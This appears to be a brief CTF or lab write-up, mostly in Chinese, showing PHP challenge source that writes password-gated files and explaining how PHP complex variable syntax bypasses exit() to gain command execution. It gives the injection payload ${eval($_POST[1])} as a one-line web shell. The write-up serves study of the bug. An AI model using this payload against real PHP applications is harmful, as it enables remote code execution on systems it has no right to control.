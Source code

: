 ```PHP
    preg_match('/^<\?php \$_GET\[\"password\"\]===\"[a-zA-Z0-9]{8}\"\?print\(\".*\"\):exit\(\); $/s', $f1_read, $matches);  
      
    if(!empty($matches[0])){  
       copy($f1,$f2);  
       fclose($stream_f1);     
       return $f2;       
    }else{  
       fwrite($stream_f1, '<?php exit(); ?>');  
       fclose($stream_f1);  
       return false;  
    }  
  
}  
  
private function _create($password, $content){  
    $_content='<?php $_GET["password"]==="'.$password.'"?print("'.$content.'"):exit(); ';  
    return $_content;  
}
```

用php的复杂语法bypass exit完成命令执行

```
${eval($_POST[1])}
```

上传txt私藏

![](attachments/Pasted%20image%2020240403160300.png)

